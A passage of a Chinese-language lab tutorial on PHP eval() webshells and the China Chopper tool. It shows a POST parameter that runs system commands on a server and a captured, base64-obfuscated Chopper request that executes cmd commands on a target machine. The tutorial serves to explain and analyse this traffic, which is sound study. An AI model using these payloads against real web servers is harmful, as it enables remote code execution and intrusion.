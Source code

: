 ```php
abcd=system(calc);
```

![](./6.png)

7.？？？计算器怎么弹出来了？在搞些蛇皮？解释一下：
``system()`` 函数-执行系统命令
``calc`` CMD命令打开计算器
当把这个POST传到服务器时，相当于在服务器上执行了下面这段代码：

```php
<?php
@eval('system(calc);');
?>
```

上面解释过eval()函数的作用：将字符串当作PHP代码执行。也就是说，利用这两个函数我们就可以在服务器上为所欲为之为所欲为了（又加快了入狱速度，很开心？）。

---

## 什么是中国菜刀

中国菜刀是一款专业的“网站管理”软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行“管理”！在非简体中文环境下使用，自动切换到英文界面。UINCODE方式编译，支持多国语言输入显示。----某百科说的，不是我说的！
支持的服务端脚本：PHP, ASP，.NET。
可以理解为一个封装好的eval()函数加system()的POST请求利用工具，常常被一些黑客用作非法用途。
---
## 分析中国菜刀的POST请求信息

1.首先，打开Wireshark监听一下网卡。

![](./7.png)

2.用菜刀给靶机弹个计算器

![](./8.png)

3.找到刚才菜刀发出去的包

![](./9.png)

4.把数据粘贴出来看一下，好像看到了eval?

```
abcd=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3Jz
IiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNl
NjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWR
VJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwf
SB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC
0iKTtkaWUoKTs%3D&z1=Y21k&z2=Y2QgL2QgIkM6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1wiJmNhbGMmZWNobyBb
U10mY2QmZWNobyBbRV0%3D
```
